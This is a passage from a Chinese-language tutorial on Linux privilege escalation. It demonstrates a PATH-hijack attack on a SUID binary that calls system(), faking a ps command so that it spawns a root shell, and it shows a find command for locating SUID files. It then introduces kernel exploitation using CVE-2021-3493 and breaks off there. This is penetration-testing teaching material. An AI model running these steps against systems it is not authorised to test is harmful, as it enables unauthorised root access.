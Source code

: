 将文件编译后输出：

```sh
gcc shell.c -o shell
chmod u+s shell # 给 shell 文件赋予 SUID 权限。
./shell # 执行该文件。
```

![](/images/微信图片_20220826135822.png)

当创建完成之后，我们发现该文件中使用了 system() 函数，该函数是继承环境变量的，因此便可以通过替换环境变量可以达到执行任意命令的效果。我们要做的就是替换 ps 所在的路径，并且修改 ps 这个命令可执行文件的内容，即自己创建一个 ps 文件。

```sh
echo "/bin/sh" > ps # ps 文件执行后将开启一个 shell。
chmod 777 ps # 给 ps 文件添加权限。
export PATH=/tmp:$PATH # 将环境变量的路径前面加上 /tmp。
```

这样，我们就完成了 ps 命令的伪造，当 ps 命令执行的时候，便会调用我们自己的命令，即以 root 执行 `/bin/sh/`。

\$PATH 变量修改前后的变化：

![](/images/微信图片_20220826140037.png)

该方法提权有几个前提：

* 需要有 root 用户创建的可执行文件。
* 该文件执行的时候是以 SUID 的权限执行。

可以使用命令查找具有这些特征的文件：

```sh
find / -perm -u=s -type f 2>/dev/null
```

![](/images/微信图片_20220826141319.png)

![](/images/微信图片_20220826141436.png)

::: tip SUID

文件中的权限 s 是让普通用户可以以 root 用户的角色运行只有 root 帐号才能运行的程序或命令。

:::

## 内核漏洞提权

### 原理

Linux kernel 一般指 Linux 内核。Linux 是一种开源电脑操作系统内核。它是一个用 C 语言写成，符合 POSIX 标准的类 Unix 操作系统。可以利用 Linux 内核中存在的漏洞达到提权的目的。

### 复现

> 在渗透测试的过程中，可以借助信息收集查看系统的版本，结合版本信息查看是否存在可以利用的提权漏洞，这里用 CVE-2021-3493 漏洞为例。
